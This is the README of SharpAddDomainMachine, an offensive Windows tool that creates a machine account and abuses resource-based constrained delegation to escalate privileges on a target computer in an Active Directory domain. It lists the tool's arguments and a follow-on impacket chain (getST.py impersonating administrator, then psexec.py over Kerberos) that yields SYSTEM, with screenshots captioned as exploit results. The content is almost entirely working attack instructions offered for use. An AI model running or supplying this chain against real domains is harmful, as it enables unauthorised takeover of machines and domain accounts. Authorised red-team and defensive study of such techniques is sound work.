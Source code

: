 # SharpAddDomainMachine
## Description
The same script as [SharpAllowedToAct](https://github.com/pkb1s/SharpAllowedToAct), but more usefully for local privilege escalation.

## Usage
```
SharpAddDomainMachine

SharpAddDomainMachine.exe domain=domain.com dc=192.168.1.1 tm=target_machine_name ma=machine_account mp=machine_pass

domain: Set the target domain.
dc:     Set the domain controller to use.
tm:     Set the name of the target computer you want to exploit. Need to have write access to the computer object.
ma:     Set the name of the new machine.(default:random)
mp:     Set the password for the new machine.(default:random)
```

After successful attack use impacket to get system:
```
getST.py -dc-ip dc_ip domain.com/ma:mp -spn cifs/tm.domain -impersonate administrator
export KRB5CCNAME=administrator.ccache
psexec.py domain/administrator@tm.domain -k -no-pass
```

exploit:
![](https://blogpics-1251691280.file.myqcloud.com/imgs/20200330175454.png)

getsystem:
![](https://blogpics-1251691280.file.myqcloud.com/imgs/20200330175524.png)

Rubeus example:
![](https://blogpics-1251691280.file.myqcloud.com/imgs/20200330224044.png)